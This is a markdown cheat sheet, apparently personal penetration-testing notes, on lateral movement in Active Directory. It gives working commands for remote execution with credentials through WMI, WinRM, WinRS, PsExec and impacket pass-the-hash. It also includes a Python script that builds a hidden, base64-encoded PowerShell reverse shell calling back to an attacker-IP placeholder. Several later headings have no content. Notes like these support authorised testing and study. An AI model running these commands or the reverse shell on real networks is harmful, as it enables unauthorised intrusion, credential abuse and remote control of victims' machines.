 # Lateral movements in AD

## Techniques

### Windows Remote Management

#### WMI

Takes a local group `Administrators` account:

##### In `cmd`

Deprecated:
```
wmic /node:$TargetIp /user:somelocalAdminuser /password:somepass process call create "cmd"
```

##### In PowerShell

```
$username = 'user';
$password = 'pass';
$secureString = ConvertTo-SecureString $password -AsPlaintext -Force
$credential = New-Object System.Management.Automation.PSCredential $username, $secureString
$Options = New-CimSessionOption -Protocol DCOM
$Session = New-Cimsession -ComputerName $VictimIP -Credential $credential -SessionOption $Options
$Command = 'powershell -nop -w hidden -e somebase64string
Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{CommandLine = $Command};
```

For a PowerShell reverse shell (in Python, replace the IP and Port): 
```
import sys
import base64

payload = '$client = New-Object System.Net.Sockets.TCPClient("AttackerIp",AttackerPort); $stream = $client.GetStream(); [byte[]]$bytes = 0..65535|%{0}; while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){; $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes, 0, $i); $sendback = (iex $data 2>&1 | Out-String); $sendback2 = $sendback + "PS " + (pwd).Path + "> "; $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2); $stream.Write($sendbyte, 0, $sendbyte.Length); $stream.Flush()}; $client.Close()'

cmd = "powershell -nop -w hidden -e " + base64.b64encode(payload.encode('utf16')[2:]).decode()

print(cmd)
```

#### WinRM

##### In `cmd`: WinRS (Windows Remote Shell)
 
```
winrs -r:targethostname -u:user -p:pass  "powershell -nop -w hidden -e somebase64string"
```

##### In PowerShell

```
$username = 'user';
$password = 'pass';
$secureString = ConvertTo-SecureString $password -AsPlaintext -Force;
$credential = New-Object System.Management.Automation.PSCredential $username, $secureString;
New-PSSession -ComputerName $VictimIp -Credential $credential

Enter-PSSession $winrm_session_number
```

### PsExec

```
C:\path\to\PsExec64.exe -i  \\hostname -u somedomain\someuser -p somepass cmd
> hostname
> whoami
```

### Pass the Hash

```
/usr/bin/impacket-wmiexec -hashes 00000000000000000000000000000000:somelonghashstring Administrator@VictimIP
```

### Overpass the Hash

### Pass the Ticket

### DCOM

## Persistence

### Golden ticket

### Shawdow copies


